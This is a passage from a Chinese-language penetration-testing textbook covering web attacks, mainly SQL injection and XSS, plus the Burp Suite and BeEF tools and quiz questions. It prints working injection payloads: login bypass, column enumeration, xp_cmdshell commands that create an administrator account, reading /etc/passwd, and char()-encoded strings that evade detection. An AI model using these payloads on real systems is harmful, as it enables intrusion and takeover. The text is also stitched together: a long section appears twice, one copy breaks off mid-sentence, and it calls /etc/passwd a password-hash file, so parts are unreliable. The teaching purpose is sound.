net group /domain "Domain Admins" /add localaccountname
```

- A. 尝试获取域管理员的密码
- B. 尝试更改域管理员的密码
- C. 尝试将 localaccountname 添加到域管理员组
- D. 什么都没有，因为此脚本写得不正确

4. John 执行了图 6-17 中显示的命令。John 刚刚完成了什么？


## 图 6-17 识别第 4 题命令功能。

- A. 获取了横幅
- B. 将 SAM 文件导出到 pwd.txt
- C. 提交远程命令使服务器崩溃
- D. 污染了服务器的本地 DNS 缓存

5. 什么加载 boot.ini 文件？

- A. NTOSKRNL
- B. NTLDR
- C. BIOS
- D. MBR

6. 哪个程序处理安全和登录策略？

- A. Lsass.exe
- B. Crss.exe
- C. Smss.exe
- D. Secs.exe

7. 以下哪个工具会清空密码？

- A. ophcrack
- B. pwdump
- C. Cain and Abel
- D. chntpw

8. 以下哪个命令会枚举本地网络计算机？

- A. **net share**
- B. **net enum**
- C. **net view**
- D. **net scan**

9. 在注册表键 HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\NetworkList\Profiles\ 中能找到什么？

- A. Wi-Fi SSID
- B. USB 设备
- C. Internet Explorer 密码
- D. 已卸载的程序

## 项目

## 项目 1

下载 Cain and Abel 并在自己的机器或实验室机器上使用它来提取数据。您可以在 http://www.oxid.it/cain.html 获取该工具。

## 项目 2

在实验室计算机上尝试各种 **net** 命令，包括 **netshell**。确保您熟悉所有命令。

执行以下每个命令：

- **net users**
- **net view**
- **net session**
- **net session \\computername**（用您的合作伙伴的计算机替换 *computername*）
- **net share**

## netsh

执行以下操作：

```
netsh firewall set portopening tcp 445 smb enable
```

它会起作用，但您会收到通知，称 netsh 防火墙已被弃用。使用新命令（**netsh advfirewall firewall**）和不同的端口重复实验。

执行以下操作：

```
netsh wlan show networks
netsh interface ip show config
```

要尝试更高级的 **netsh** 命令，请尝试连接到远程计算机：

```
netsh set machine remotecomputer
```

# 第 7 章

## Web 入侵

## 章节目标

阅读本章并完成练习后，您将能够做到以下几点：

- 了解网站的工作原理
- 了解网站渗透测试
- 了解各种网站攻击

任何网络中最暴露的部分是网站。因此，网站对攻击者来说是一个有吸引力的目标。在任何渗透测试中，您都应测试网站。在后面的章节中，我们将探索用于 Web 服务器和网页的漏洞扫描程序。在本章中，我们将研究特定的攻击和一些可以帮助自动化此类攻击的工具。

## Web 技术

首先重要的是您对网站的工作原理有实际的了解。对许多读者来说，其中大部分内容应该是复习，但如果您在知识上有任何空白，本节应有助于填补这些空白。

Web 流量使用超文本传输协议（HTTP）。该协议通常在端口 80 上运行。如果使用 SSL/TLS 加密，则将在端口 443 上运行。主要通信方式是通过消息。这些是默认端口，但您可以使用任何您想要的端口。

## 表 7-1 网页发送的基本 HTTP 消息

| 命令 | 目的 |
|---|---|
| GET | 请求读取网页 |
| HEAD | 请求读取网页 |
| PUT | 请求写入网页 |
| POST | 请求追加到页面 |
| DELETE | 删除网页 |
| LINK | 连接两个现有资源 |
| UNLINK | 断开两个资源之间现有连接 |

最常见的是 GET、HEAD、PUT 和 POST。事实上，在您分析 Web 流量的大部分时间里，您可能只会看到这四种。LINK 和 UNLINK 很少见。您应该知道 GET 命令实际上是服务器获取信息。所以它与 POST 命令非常相似。两者之间的区别如下：

- GET 请求可以被缓存；POST 请求永远不会被缓存。
- GET 请求保留在浏览器历史记录中；POST 请求不会保留在浏览器历史记录中。
- GET 请求可以被书签收藏；POST 请求不能被书签收藏。
- GET 请求在处理敏感数据时绝不应使用。
- GET 请求有长度限制；POST 请求对数据长度没有限制。

响应代码同样重要。您可能已经看到“错误 404 文件未找到”。但您可能不知道有大量消息在来回传递，其中大部分您看不到，如表 7-2 所示。

## 表 7-2 对用户透明的 Web 服务器/浏览器消息

| 消息范围 | 含义 |
|---|---|
| 100–199 | 这些只是信息性的。服务器正在向浏览器告知一些信息，其中大部分永远不会显示给用户。例如，当您从 http 切换到 https 时，会向浏览器发送 101 消息，告知其协议正在更改。 |
| 200–299 | 这些基本上是“确定”消息，意味着浏览器请求的任何内容，服务器都已成功处理。如果一切正常，您的基本 HTTP 消息如 POST、GET、HEAD 等应获得 200 代码作为响应。 |
| 300–399 | 这些是重定向消息，告诉浏览器转到另一个 URL。例如，301 表示请求的资源已永久移动到新的 URL，但消息代码 307 表示移动是临时的。 |


| 消息范围 | 含义 |
|---|---|
| 400–499 | 这些是客户端错误，也是最常向终端用户显示的错误。这可能看起来很奇怪，因为例如 404 文件未找到 意味着服务器找不到你请求的那个文件。然而，问题在于服务器运行正常，只是该文件不存在。因此，客户端请求出错了。 |
| 500–599 | 这些是服务器端错误。例如，503 表示请求的服务已关闭，可能已过载。在拒绝服务（DoS）攻击中你会经常看到此错误。 |

这些基本消息从 Web 服务器发送到浏览器。大多数消息终端用户永远看不到。

这些错误消息帮助你收集信息。在第 4 章我们讨论了侦察。与网页一起我们可以更进一步。目标是识别 Web 服务器和使用的编程语言。此过程称为指纹识别。熟练的黑客常用的一个方法是诱发错误消息。如果你可以输入错误输入，你可能会从错误消息中获得信息。例如，如果你收到的错误消息中包含“JDBC”，那么那就是 Java 数据库连接，这意味着代码是用 Java 编写的。良好的指纹识别的关键是了解一些编程（Web 编程）和 Web 服务器的知识。

## 网站上的特定攻击

在本节中，我们将介绍一些最常见的攻击。这些是你绝对应该测试网站的项目。其中大多数可以手动测试。本章后面我们将研究一些可以帮助你自动化测试过程的工具。

## SQL 脚本注入

这可能是网站上最流行的攻击。近年来，越来越多的网站采取措施来减轻这种攻击的危险；不幸的是，太多网站仍然容易受到攻击。这种攻击基于将结构化查询语言（SQL）命令传递给 Web 应用程序并让网站执行它们。

在讨论 SQL 注入之前，我们必须谈谈 SQL 和关系数据库。这对大多数读者来说应该是复习。关系数据库基于各种表之间的关系。结构包括表、主键和外键以及关系。基本描述可以用以下几点概括：

- 每一行代表一个单一实体。
- 每一列代表一个单一属性。
- 每个记录由一个唯一数字标识，称为主键。
- 表通过外键相关。外键是另一个表中的主键。

你可以在图 7-1 中看到这些关系。

| PK | LNAME | FNAME | JobCode | Hire Date |
|---|---|---|---|---|
| 1 | Smith | Jane | 2 | 1/10/2010 |
| 2 | Perez | Juan | 2 | 1/14/2011 |
| 3 | Kent | Clark | 1 | 3/2/2005 |
| 4 | Euler | Leonard | 3 | 3/5/2009 |
| 5 | Plank | Max | 3 | 4/2/2012 |

| PK | Job Name | Min Edu. | Min Salary | Max Salary |
|---|---|---|---|---|
| 1 | Super Hero | None | 100,000 | 1,000,000 |
| 2 | Programmer | BA/BS | 70,000 | 95,000 |
| 3 | Math/Scientist | Ph.D. | 80,000 | 110,000 |
| 4 | Manager | BA/BS | 140,000 | 220,000 |

图 7-1 关系数据库结构。

所有关系数据库都使用 SQL。SQL 使用诸如 SELECT、UPDATE、DELETE、INSERT、WHERE 等命令。至少基本查询非常容易理解和解释。

## 最基本的 SQL 注入

最基本的 SQL 注入的工作方式如下。许多网站/应用程序都有一个页面，用户在其中输入用户名和密码。该用户名和密码必须与某个数据库进行检查以查看是否有效。无论数据库类型如何（Oracle、SQL Server、MySQL），所有数据库都使用 SQL。SQL 看起来和功能上都非常像英语。例如，要检查用户名和密码，你可能想查询数据库，看看 users 表中是否有与输入的该用户名和密码匹配的条目。如果有，那么你就匹配了。SQL 语句可能看起来像这样：

```
"SELECT * FROM tblUsers WHERE USERNAME = 'jdoe' AND PASSWORD = 'letmein'"
```

问题在于，虽然这是有效的 SQL，但我们对用户名和密码进行了硬编码。对于真正的网站，我们必须获取用户在用户名字段和密码字段中输入的内容并进行检查。这可以很容易完成（无论网站是用什么编程或脚本语言编写的）。它可能看起来像这样：

```
String sSQL = "SELECT * FROM tblUSERS WHERE UserName = ' " + txtUserName.text + " ' AND Password = ' " + txtPassword.text + " ' "
```

请注意上面加粗的额外 '。这是为了确保用户为用户名和密码输入的任何内容都将在单引号内，包含在大 SQL 语句中，而大 SQL 语句又在双引号内。

如果你输入用户名 ‘jdoe’ 和密码 ‘letmein’，此代码会生成以下 SQL 命令：

```
"SELECT * FROM tblUsers WHERE USERNAME = 'jdoe' AND PASSWORD = 'letmein' "
```

现在如果 tblUsers 中有一个用户名为 jdoe 的用户，并且该用户的密码为 letmein，那么该用户将被登录。如果不是，则会发生错误。

SQL 注入通过在用户名和密码块中放置始终为真的某些 SQL 来工作。例如，假设你输入 ‘OR ‘1’=’1 到用户名和密码框中。这看起来可能是一个非常奇怪的事情要输入，但让我们检查一下这将导致什么。这将导致程序创建此查询：

```
"SELECT * FROM tblUsers WHERE USERNAME = 'OR '1'='1' AND PASSWORD = 'OR '1'='1' "
```

请注意，我们在 or 1='1 之前以单引号 (') 开始。这是为了关闭攻击者知道代码中必须存在的打开引号。而且如果你看到 '，那本质上是空白或空值。因此，我们告诉数据库如果用户名为空，或者如果 1=1，并且如果密码为空，或者如果 1=1，则登录我们。如果你想一想，你会看到 1 总是等于 1，所以这将始终为真。

‘OR ‘1’=’1 没有任何意义；它只是一个始终为真的陈述。攻击者尝试其他类似的陈述，例如以下内容：

- ' or 'a'='a
- ' or '42'='42
- ' or (1=1)
- ' or 'spongebob' = 'spongebob

最后一个例子既是为了嘲讽，也是为了说明任何真陈述都有效。这就是使其如此难以阻止的原因之一。与其尝试阻止特定的等价性，网站是通过过滤符号（如单引号）来防御的。

这只是 SQL 注入的一个例子。事实上，这是最简单的 SQL 注入版本。还有其他方法，但这是最常见的。对这种攻击的防御是在处理之前过滤所有用户输入。这通常被称为输入验证。这可以防止攻击者输入 SQL 命令而不是用户名和密码。不幸的是，许多站点不过滤用户输入，仍然容易受到这种攻击。

这里给出的例子是最基本的 SQL 注入版本。你可以用 SQL 注入做更多的事情。攻击者仅受其对 SQL 和目标数据库系统的了解的限制。

请记住，文本前面我们第一次简要提到 SQL 注入时，建议过滤输入可以防止这种情况。例如，创建网站的程序员应编写代码以首先检查任何常见的 SQL 注入符号，例如单引号 (')、百分号 (%)、等号 (=) 或与号 (&)，如果发现这些符号，则停止处理并记录错误。

这将防止许多 SQL 注入攻击。有方法可以规避这些安全措施，但实施它们将阻止许多 SQL 注入攻击。

有许多方法可以对抗 SQL 注入。其中一种是程序员参数化查询。最简单的是过滤所有用户输入的符号；然而，太多 Web 程序员没有采取这些措施。每一份 OWASP Top 10 网站漏洞列表都包含了注入。在第 8 章“漏洞扫描”中，我们将详细讨论 OWASP 及其 Top 10 列表。

## 更进一步

再次，前述内容是最基本的 SQL 注入形式。你可以从那里扩展。例如，一旦你登录，你可能希望枚举其他帐户，而不仅仅是第一个。也许你已作为名字为 John 的用户登录。现在你想找到下一个用户。将其放入用户名框（保持密码框不变）：

```
' or '1'='1' and firstname <> 'john
```

或尝试：

```
' or '1'='1' and not firstname != 'john
```

显然 firstname 可能不是该数据库中列的名称。你可能必须尝试各种排列组合才能找到一个有效的方法。还请记住 Microsoft Access 和 SQL Server 允许使用括号的多词列名（即 [First Name]），但 MySQL 和 PostgreSQL 不接受括号。这有点繁琐，但可能性是有限的。数据库不太可能有一个与“名字”完全无关的列名。因此你可能尝试：

```
' or '1'='1' and firstname <> 'john
' or '1'='1' and fname <> 'john
' or '1'='1' and first_name <> 'john
' or '1'='1' and [first_name] <> 'john
```

我想你可以看到十几次尝试有很高的成功可能性。当然，这假设你已经成功使用了 ' or '1'='1'。一旦初始登录成功，你可以尝试很多事情。让我们在接下来的部分中检查其中一些。

## 了解更多关于目标的信息

一旦你成功登录，你可能想知道该表中的其他列。你可能不希望经历前面描述的繁琐猜测。根据使用的数据库，有方法可以做到这一点。

对于 MS SQL：

```
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'tablename ')
```

对于 MySQL：

```
show columns from tablename
```


对于 Oracle：

```
SELECT * FROM all_tab_columns
WHERE table_name='tablename'
```

你可能还想知道当前登录数据库的用户是谁。换句话说，数据库是以什么身份运行的？在大多数 SQL 实现中都能工作的几个 SQL 内置标量函数如下：

```
user or current_user
session_user
system_user
```

尝试每个函数，看是否能确定用户。这可能会很有用，特别是如果设置数据库的人没有遵守最小权限原则。

## 更高级的 SQL 注入

你还可以创建一个新账户。这样做的好处是以后可以直接登录，而无需再次进行 SQL 注入过程。这也是渗透测试成功的非常明确的指标。你可以向网站所有者证明，你不仅渗透了他的网站，甚至能够修改底层数据库。具体方法因数据库而异。以下是一些示例。

对于 Microsoft SQL Server，你将使用两个存储过程。存储过程是预先构建的 SQL，可以被调用并执行。所涉及的两个过程首先添加一个登录名，然后将该登录名添加到系统管理员角色中：

```
exec sp_addlogin 'johnsmith', 'mypassword'
exec sp_addsrvrolemember 'johnsmith', 'sysadmin'
```

Microsoft Access 更简单；只需发出 CREATE USER 命令：

```
CREATE USER johnsmith IDENTIFIED BY 'mypassword'
```

对于 MySQL，问题是将用户和密码插入 users 表中。以下是一个示例：

```
INSERT INTO mysql.user (user, host, password) VALUES ('johnsmith', 'localhost', PASSWORD('mypassword'))
```

PostgreSQL 与 MySQL 类似。这并不奇怪，因为两者都是非常流行、开源的关系型数据库：

```
CREATE USER johnsmith WITH PASSWORD 'mypassword'
```

Oracle 需要稍微复杂一些，但相对直接：

```
CREATE USER johnsmith IDENTIFIED BY mypassword
    TEMPORARY TABLESPACE temp
    DEFAULT TABLESPACE users;
GRANT CONNECT TO johnsmith;
GRANT RESOURCE TO johnsmith;
```

这些是使用 SQL 注入可以做的一些基本操作；然而，尝试利用数据库获取底层操作系统的访问权限更有趣。你应该意识到，SQL 注入越深入，过程就会变得越繁琐。初始登录相对直接，要么成功要么失败。判断是否可行所需的时间很少。更高级的技术需要花费大量精力和时间。渗透测试人员往往正因如此而对重度咖啡因饮料产生好感。

以下是一些与数据库安装在其上的底层操作系统交互的方法。

对于在 Linux 上运行的 MySQL 数据库，你可以尝试将此命令添加到你的 SQL 注入登录中：

```
' union select 1, (load_file('/etc/passwd')),1,1,1;
```

此命令尝试加载密码哈希文件。然后你可以使用它执行彩虹表攻击，并可能获取该服务器上用户的密码。

使用 MS SQL Server，你也可以使用存储过程启动服务：

```
'; exec master..xp_servicecontrol 'start','Remote Registry'
```

这个特别有趣。启动或停止服务的能力非常强大。它取决于数据库服务本身的权限。如果配置正确，并以最小权限运行，其中一些可能无法工作。

也许你有兴趣使用命令提示符/ shell？如果目标是 SQL Server，肯定有办法做到这一点。我们从这个开始：

```
'; exec xp_cmdshell 'net user /add jsmith Pass123'--
'; exec xp_cmdshell 'net localgroup /add administrators jsmith'
```

这会执行 net user 脚本（回顾第 6 章“黑客攻击 Windows”中的 Windows 命令）并创建一个名为 jsmith 的用户并将其添加到管理员组。这只是一个示例。事实上，如果 xp_cmdshell 正常工作，你仅受两件事限制。第一是数据库服务本身的权限（记住最小权限是安全中最基本的概念）。第二是你对 Windows 命令提示符的了解。

你还应该知道可以把多个查询组合在一起。例如，使用分号作为命令分隔符：

```
' or '1' ='1'; select * from someothertable
```

## 规避对策

许多入侵检测系统和 Web 应用防火墙都设置为检测 SQL 注入符号。一种规避方法是使用 SQL 符号的替代符号。例如，不使用引号注入（字符串 = “%”）：

```
' or username like char(37);
```

Char(39) 是单引号。因此，与其使用 ‘ or ‘1’ = ‘1，你可以写成：

```
Char(39)  or Char(39) 1 Char(39) =Char(39) 1
```

Char(42) 是星号。

## 附加资源

这只是对 SQL 注入的介绍。如果你想深入研究，我推荐以下网站：

- http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
- http://www.sqlinjectionwiki.com/categories/2/mysql-sql-injection-cheat-sheet/
- https://information.rapid7.com/rs/rapid7/images/R7%20SQL_Injection_Cheat_Sheet.v1.pdf

## XSS

跨站脚本（通常称为 XSS）是一种相对简单的攻击。你尝试将脚本加载到文本字段中，以便当其他用户访问该站点时执行。例如，你进入产品评论区，但不是输入评论，而是输入 JavaScript。

本质上，你将脚本输入到其他用户会交互的区域，这样当他们访问该站点部分时，你自己的脚本会运行，而不是预期的网站功能。这可能包括重定向他们。

跨站脚本利用用户对特定站点的信任。跨站请求伪造（CSRF）在后面的章节中讨论，利用的是站点对用户浏览器的信任。你能用它做什么？首先让我们看一些基础 JavaScript。

## 基础 JavaScript

为了理解跨站脚本，你至少需要一些 JavaScript 的了解。能够手动输入一些脚本以测试目标网站是否易受攻击也很[content]
对于 Oracle：

```
SELECT * FROM all_tab_columns
WHERE table_name='tablename'
```

你可能还想知道当前登录数据库的用户是谁。换句话说，数据库是以什么身份运行的？在大多数 SQL 实现中都能工作的几个 SQL 内置标量函数如下：

```
user or current_user
session_user
system_user
```

尝试每个函数，看是否能确定用户。这可能会很有用，特别是如果设置数据库的人没有遵守最小权限原则。

## 更高级的 SQL 注入

你还可以创建一个新账户。这样做的好处是以后可以直接登录，而无需再次进行 SQL 注入过程。这也是渗透测试成功的非常明确的指标。你可以向网站所有者证明，你不仅渗透了他的网站，甚至能够修改底层数据库。具体方法因数据库而异。以下是一些示例。

对于 Microsoft SQL Server，你将使用两个存储过程。存储过程是预先构建的 SQL，可以被调用并执行。所涉及的两个过程首先添加一个登录名，然后将该登录名添加到系统管理员角色中：

```
exec sp_addlogin 'johnsmith', 'mypassword'
exec sp_addsrvrolemember 'johnsmith', 'sysadmin'
```

Microsoft Access 更简单；只需发出 CREATE USER 命令：

```
CREATE USER johnsmith IDENTIFIED BY 'mypassword'
```

对于 MySQL，问题是将用户和密码插入 users 表中。以下是一个示例：

```
INSERT INTO mysql.user (user, host, password) VALUES ('johnsmith', 'localhost', PASSWORD('mypassword'))
```

PostgreSQL 与 MySQL 类似。这并不奇怪，因为两者都是非常流行、开源的关系型数据库：

```
CREATE USER johnsmith WITH PASSWORD 'mypassword'
```

Oracle 需要稍微复杂一些，但相对直接：

```
CREATE USER johnsmith IDENTIFIED BY mypassword
    TEMPORARY TABLESPACE temp
    DEFAULT TABLESPACE users;
GRANT CONNECT TO johnsmith;
GRANT RESOURCE TO johnsmith;
```

这些是使用 SQL 注入可以做的一些基本操作；然而，尝试利用数据库获取底层操作系统的访问权限更有趣。你应该意识到，SQL 注入越深入，过程就会变得越繁琐。初始登录相对直接，要么成功要么失败。判断是否可行所需的时间很少。更高级的技术需要花费大量精力和时间。渗透测试人员往往正因如此而对重度咖啡因饮料产生好感。

以下是一些与数据库安装在其上的底层操作系统交互的方法。

对于在 Linux 上运行的 MySQL 数据库，你可以尝试将此命令添加到你的 SQL 注入登录中：

```
' union select 1, (load_file('/etc/passwd')),1,1,1;
```

此命令尝试加载密码哈希文件。然后你可以使用它执行彩虹表攻击，并可能获取该服务器上用户的密码。

使用 MS SQL Server，你也可以使用存储过程启动服务：

```
'; exec master..xp_servicecontrol 'start','Remote Registry'
```

这个特别有趣。启动或停止服务的能力非常强大。它取决于数据库服务本身的权限。如果配置正确，并以最小权限运行，其中一些可能无法工作。

也许你有兴趣使用命令提示符/ shell？如果目标是 SQL Server，肯定有办法做到这一点。我们从这个开始：

```
'; exec xp_cmdshell 'net user /add jsmith Pass123'--
'; exec xp_cmdshell 'net localgroup /add administrators jsmith'
```

这会执行 net user 脚本（回顾第 6 章“黑客攻击 Windows”中的 Windows 命令）并创建一个名为 jsmith 的用户并将其添加到管理员组。这只是一个示例。事实上，如果 xp_cmdshell 正常工作，你仅受两件事限制。第一是数据库服务本身的权限（记住最小权限是安全中最基本的概念）。第二是你对 Windows 命令提示符的了解。

你还应该知道可以把多个查询组合在一起。例如，使用分号作为命令分隔符：

```
' or '1' ='1'; select * from someothertable
```

## 规避对策

许多入侵检测系统和 Web 应用防火墙都设置为检测 SQL 注入符号。一种规避方法是使用 SQL 符号的替代符号。例如，不使用引号注入（字符串 = “%”）：

```
' or username like char(37);
```

Char(39) 是单引号。因此，与其使用 ‘ or ‘1’ = ‘1，你可以写成：

```
Char(39)  or Char(39) 1 Char(39) =Char(39) 1
```

Char(42) 是星号。

## 附加资源

这只是对 SQL 注入的介绍。如果你想深入研究，我推荐以下网站：

- http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
- http://www.sqlinjectionwiki.com/categories/2/mysql-sql-injection-cheat-sheet/
- https://information.rapid7.com/rs/rapid7/images/R7%20SQL_Injection_Cheat_Sheet.v1.pdf

## XSS

跨站脚本（通常称为 XSS）是一种相对简单的攻击。你尝试将脚本加载到文本字段中，以便当其他用户访问该站点时执行。例如，你进入产品评论区，但不是输入评论，而是输入 JavaScript。

本质上，你将脚本输入到其他用户会交互的区域，这样当他们访问该站点部分时，你自己的脚本会运行，而不是预期的网站功能。这可能包括重定向他们。

跨站脚本利用用户对特定站点的信任。跨站请求伪造（CSRF）在后面的章节中讨论，利用的是站点对用户浏览器的信任。你能用它做什么？首先让我们看一些基础 JavaScript。

## 基础 JavaScript

为了理解跨站脚本，你至少需要一些 JavaScript 的了解。能够手动输入一些脚本以测试目标网站是否易受攻击也很

完成后，你会导航到另一个遭受跨站脚本攻击的网站。该网站会拉取你的历史记录，包括你通过 GET 发送的数据。现在攻击者已获取你的数据，而实际上并未入侵你输入数据的网站。这应该令人担忧。

## 其他 Web 攻击

以下攻击被提及，但细节较少。你需要对这些攻击有一般性的了解，但这是一篇入门性文本，你不必精通每一种 Web 攻击。此外，正如你在第 8 章中会看到的那样，有自动化工具可以告诉你某个网站是否容易受到其中一种或多种攻击。

## CSRF

跨站请求伪造 Cross-Site Request Forgery (CSRF) 是一种攻击，会迫使用户在其当前已通过身份验证的 Web 应用程序上执行非预期的操作。CSRF 是一种攻击，诱骗受害者提交恶意请求。它继承受害者的身份和权限，以受害者名义执行不期望的功能。对于大多数站点，浏览器请求会自动包含与站点关联的任何凭据，例如用户的会话 Cookie、IP地址、Windows 域凭据等。

## 强制浏览

强制浏览 Forceful Browsing Web 服务器只要用户知道文件名且文件未受保护，就会向用户发送任何文件。因此，黑客可能会利用此安全漏洞，“直接跳转”到页面。例如，注册页面中的 HTML 注释提到了一个名为“_private/customer.txt”的文件。输入“http://www.xxx.com/_private/customer.txt”会返回所有客户的信息。

在 CGI 名称后附加“~”或“.bak”或“.old”可能会返回源代码的旧版本。例如，“www.xxx.com/cgi-bin/admin.jsp~”会返回 admin.jsp 源代码。

## 参数篡改

这种攻击正变得过时，因为今天较少的 Web 程序员仍会在 URL 中保留有趣的信息。参数篡改是一种基于 Web 的攻击形式，其中用户在 URL 或网页表单字段中输入的某些参数会被更改。这通常是为了改变 Web 应用程序的行为。最明显的例子是当值在 URL 中时，例如：

有效交易：

```
http://www.victim.com/tx?acctnum=12&debitamt=100
```

恶意交易：

```
http://www.victim.com/tx?acctnum=12&creditamt=1000000
```

缓解措施：每当发送参数时，检查会话令牌。

## Cookie 污染

许多 Web 应用程序使用 Cookie 在客户端机器上保存信息 用户 ID、时间戳等。例如，当用户登录许多站点时，登录 Web 脚本会验证其用户名和密码，并设置一个包含其数字标识符的 Cookie。

当用户稍后检查其偏好设置时，另一个 Web 脚本 例如 preferences.asp 会检索 Cookie 并显示相应用户的用户信息记录。Cookie 不总是加密的，因此可以被修改。事实上，JavaScript 可以修改、写入或读取 Cookie。因此，这种攻击可以与 XSS 结合使用。

## LDAP 注入

这是一种较新的攻击，至少比 SQL 注入更新。它依赖于使用轻量级目录访问协议 LDAP 的更复杂的 Web 应用程序。它最好由开放 Web 应用程序安全项目 Open Web Application Security Project (OWASP) 的这段引述来描述：

> LDAP 注入是一种攻击，用于利用基于用户输入构建 LDAP 语句的基于 Web 的应用程序。当应用程序未能正确清理用户输入时，就有可能使用本地代理修改 LDAP 语句。这可能导致执行任意命令，例如向未经授权的查询授予权限，以及在 LDAP 树中修改内容。SQL 注入中可用的相同高级利用技术也可以类似地应用于 LDAP 注入。

## 工具

有许多工具可以自动化本章前面描述的任何 Web 攻击的过程。我们将在本节中回顾一些广泛使用的工具。

## Burp Suite

Burp Suite 是一款经典的 Web 攻击工具。你可以从 https://portswigger.net/burp/ 下载它。为演示目的，我们将使用所有默认设置启动 Burp Suite。这应该会显示图 7-2 所示的屏幕。请注意，我使用的是免费版本。


图 7-2 Burp Suite。

*第一*件需要注意的是，你有很多选项。你需要花一些时间熟悉它们。我将在此处为你演示一些基本项目，但你可以从以下位置获取完整教程：
https://www.pentestgeek.com/web-applications/burp-suite-tutorial-1
https://portswigger.net/burp/help/suite_gettingstarted.html

首先要做的是选择 Target 选项卡，然后选择 Scope 选项卡。你可以在图 7-3 中看到这一点。这里是你添加目标网站的地方。


图 7-3 Burp Suite 目标范围。

使用 Burp Suite 可以做很多事情，而本章的目的并不是 Burp Suite 教程。所以，让我们专注于仅将其配置好，然后尝试一个简单的攻击。首先，要配置它，你的浏览器必须配置为与代理服务器一起工作。这会根据你的浏览器而略有不同，所以让我们看看如何在几种广泛使用的浏览器中执行此操作。

## Chrome

首先找到设置。这是通过选择右上角的三个点找到的。你可以在图 7-4 中看到这一点。


图 7-4 访问 Chrome 设置。

现在滚动到设置屏幕底部并点击 **高级**。然后查找系统和代理设置，如图 7-5 所示。


图 7-5 Chrome 系统设置。

在代理设置中，你将选择 LAN 设置。确保设置为主机 localhost 和端口 8080，如图 7-6 所示。


图 7-6 Chrome 代理设置。

## Firefox

从下拉菜单中选择工具和选项。然后选择高级，然后网络，如图 7-7 所示。


图 7-7 Firefox 设置。

在连接设置下你会找到代理设置。确保将其设置为使用手动代理和本地主机端口 8080，如图 7-8 所示。


图 7-8 Firefox 代理设置。

## Internet Explorer

你将首先从下拉菜单中选择工具，然后设置，然后导航到如图 7-9 所示的连接选项卡。


图 7-9 Internet Explorer 连接设置。

现在点击 LAN 设置按钮并将代理设置为本地主机端口 8080，如图 7-10 所示。


图 7-10 Internet Explorer 代理设置。

## 使用 Burp Suite

现在代理设置好后，我们就可以使用 Burp Suite 了。如果访问一个网站，然后点击 **代理** 选项卡和 **HTTP 历史** 选项卡，你将看到实际的 HTTP 命令，如图 7-11 所示。


图 7-11 HTTP 历史。

现在右键单击其中一个数据包，并选择 **发送到中继器**。这在图 7-12 中显示。中继器用于修改数据包。


图 7-12 发送到中继器。

当你导航到中继器选项卡时，你将看到如图 7-13 所示的原始 HTTP 命令。

从这里你可以修改和重新发送 HTTP 命令。这将允许你尝试对网站进行许多不同的攻击。而这正是本章前面讨论的 HTTP 命令知识会有所帮助的地方。你甚至可以发送 SQL 语句并测试 SQL 注入。这只是对 Burp Suite 的简要介绍，但足以让你看到该工具的强大和灵活性。


图 7-13 重复器。

## BeEF

浏览器利用框架（Browser Exploitation Framework），你可以通过 http://beefproject.com/ 下载，是一款用于渗透测试网站的工具。请注意，部分防病毒程序会将 BeEF 检测为病毒。它并不是病毒，但你可能会收到恶意软件警告。BeEF 比 Burp Suite 复杂得多。有一个完整的 Wiki 专门介绍它，甚至会告诉你如何安装它：https://github.com/beefproject/beef/wiki/Installation。出于本章的目的，我们不会详细研究它。目标只是让你意识到这又是渗透测试人员可以使用的一种工具。

## Summary

本章介绍了网站的工作原理基础、各种网络黑客技术，以及一些帮助你进行网站渗透测试的工具。在第 8 章中你将了解漏洞扫描器，然后第 13 章介绍 Metasploit。本章的主要目标是让你理解常见的网络攻击，并对一些基本技术和工具至少有所了解。

## Test Your Skills

### MULTIPLE CHOICE QUESTIONS

1. 你正在进行新网站上线前的最后一轮测试。该网站有许多子页面，并连接到访问产品库存数据库的 SQL Server 后端。你在某个网络安全网站上看到建议在网页的搜索字段中输入以下代码以检查漏洞：

```
<script>alert("Test My Site.")</script>
```

当你输入此内容并点击搜索时，会收到一个弹出窗口，显示：

```
"Test My Site."
```

这次测试的结果是什么？

- A. 你的网站容易受到网络虫的攻击。
- B. 你的网站容易受到跨站脚本攻击。
- C. 你的网站容易受到 SQL 注入攻击。
- D. 你的网站没有漏洞。

2. 你会在哪里查找以枚举 Microsoft SQL Server 上的所有数据库？

- A. master.dbo.sysdatabase
- B. 它不能只通过一个地方来完成。
- C. master.dbo.dbmaster
- D. 你必须在 Active Directory 中查找。

3. 这个命令做什么？

```
exec master..xp_cmdshell
```

- A. 在 Linux 机器上执行一个 shell。
- B. 在 Microsoft SQL Server 上执行一个 shell。
- C. 什么都不做，它有错误。
- D. 在 Oracle 上执行一个 shell。

4. 输入文本 ' or '1' = '1' 是什么的一个例子？

- A. 跨站脚本
- B. 跨站请求伪造
- C. SQL 注入
- D. ARP 欺骗

5. 什么类型的攻击依赖于在文本区域输入 JavaScript，该区域 intended 用于用户输入将被其他用户查看的文本？

- A. SQL 注入
- B. 点击劫持
- C. 跨站脚本
- D. 权限提升

6. 以下哪种攻击是通过基于网站对用户的信任来攻击网站进行的？

- A. CSRF
- B. XSS
- C. SQL 注入
- D. 路径遍历

7. 这个命令做什么？

```
show columns from tablename
```

- A. 枚举 SQL Server 的列
- B. 枚举 MySQL 的列
- C. 枚举 Oracle 的列
- D. 枚举 MS Access 的列

## PROJECT

### PROJECT 1

以下网站允许你练习 SQL 注入。尝试在其中一个或多个网站上进行 SQL 注入。你可以通过在搜索引擎中输入“Practice SQL Injection”找到类似的网站。

- http://sqlzoo.net/hack/
- https://www.checkmarx.com/2015/04/16/15-vulnerable-sites-to-legally-practice-your-hacking-skills/

# Chapter 8

## Vulnerability Scanning

## Chapter Objectives

阅读本章并完成练习后，你将能够做到以下几点：

- 了解什么是漏洞扫描
- 知道如何使用几种漏洞扫描工具
- 进行 Web 漏洞扫描
- 进行网络漏洞扫描

首先也是最重要的一点要理解的是，漏洞扫描不是渗透测试。令人惊讶的是，有多少人认为两者是同一个东西；然而，假设它们没有关系将是一个错误。大多数公司都会同时进行漏洞扫描和渗透测试。作为一名渗透测试人员，使用漏洞扫描可以帮助你集中渗透测试工作。

那么，漏洞扫描到底是什么？它就是使用工具扫描已知问题。换句话说，有各种工具可用于扫描你的系统、网络或网站，并检查它们是否存在已记录的漏洞。对于渗透测试人员来说，这只是第一步。一旦你识别出漏洞，你就可以尝试利用它们。本章将讨论几种广泛使用的工具。

## Vulnerabilities

